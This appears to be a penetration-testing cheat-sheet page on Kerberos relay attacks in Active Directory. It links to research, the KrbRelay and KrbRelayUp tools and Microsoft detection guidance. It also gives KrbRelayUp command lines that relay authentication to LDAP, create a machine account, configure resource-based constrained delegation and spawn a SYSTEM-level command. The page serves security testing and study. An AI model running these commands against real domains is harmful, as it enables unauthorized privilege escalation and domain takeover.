 # Kerberos Relay

- [https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
- [https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)




## mitm6 + Kerberos DNS Relay + AD CS ESC8

- [https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)




## Tools



### KrbRelay

- [https://github.com/cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)
- [https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
- [https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html](https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html)



### KrbRelayUp

- [https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
- [https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/](https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/)


#### RELAY

Relay authentication to LDAP(S) with automatic machine creation and configure RBCD:

```
PS > .\KrbRelayUp.exe RELAY [-d|--Domain megacorp.local] [-dc|--DomainController DC01.megacorp.local] [-m|--Method RBCD] -c|--CreateNewComputerAccount [-cn|--ComputerName FAKEMACHINE$] [-cp|--ComputerPassword Passw0rd!]
```

Perform RBCD with UPNs:

```
PS > .\KrbRelayUp.exe RELAY -u2u -cn j.doe -cp Passw0rd!
```

{% content-ref url="/pentest/infrastructure/ad/delegation-abuse/rbcd.md#rbcd-with-upns" %}
[rbcd.md](rbcd.md)
{% endcontent-ref %}


#### SPAWN

Execute a command as NT AUTHORITY\\SYSTEM via RBCD abuse:

```
PS > .\KrbRelayUp.exe SPAWN [-m|--Method RBCD] [-i|--Impersonate administrator] [-s|ServiceName PwnSVC] [-sc|--ServiceCommand C:\Windows\System32\cmd.exe] -cn|--ComputerName FAKEMACHINE$ -cp|--ComputerPassword Passw0rd! [or -ch|--ComputerPasswordHash fc525c9683e8fe067095ba2ddc971889]
```

{% hint style="warning" %}
As [@ShitSecure](https://twitter.com/ShitSecure) mentioned, executing the binary as a .NET Reflective Assembly from PowerShell will fail because the PowerShell process will have already initialized the security parameters for COM itself after having been launched, so `CoInitializeSecurity` will not contain those new parameters attempted to set by KrbRelay(Up).
{% endhint %}
